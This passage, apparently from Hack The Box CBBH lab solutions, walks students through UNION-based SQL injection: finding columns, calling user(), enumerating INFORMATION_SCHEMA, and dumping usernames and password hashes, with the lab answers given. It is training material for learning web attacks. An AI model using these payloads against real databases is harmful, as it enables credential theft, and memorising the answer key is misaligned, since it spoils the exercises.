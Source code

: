 Code: sql

```sql
' UNION SELECT 1,2,3,4-- -
```

![[HTB Solutions/CBBH/z. images/76713cf3a657ba6018e17c6030d04403_MD5.jpg]]

Since there are four columns, students need to inject the `user()` function in either the 2nd, 3rd, or 4th column:

Code: sql

```sql
' UNION SELECT 1,user(),3,4-- -
```

![[HTB Solutions/CBBH/z. images/88b52f4f4700aaff337f5358fbd9e996_MD5.jpg]]

Answer: `root@localhost`

# Database Enumeration

## Question 1

### "What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?"

Since students are given the names of the database and the table, they only need to enumerate the names of columns within the `users` table:

Code: sql

```sql
foo' UNION SELECT 1,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -
```

![[HTB Solutions/CBBH/z. images/75ccea008f77b8b98958b415ef695509_MD5.jpg]]

At last, students need to use the `UNION` injection statement to fetch the `username` and `password` columns from the `users` table within the `ilfreight` database:

Code: sql

```sql
foo' UNION SELECT 1,username,password,4 FROM ilfreight.users-- -
```

![[HTB Solutions/CBBH/z. images/f0e300ea9d2943babca23c0c047a878c_MD5.jpg]]

Answer: `9da2c9bcdf39d8610954e0e11ea8f45f`

# Reading Files
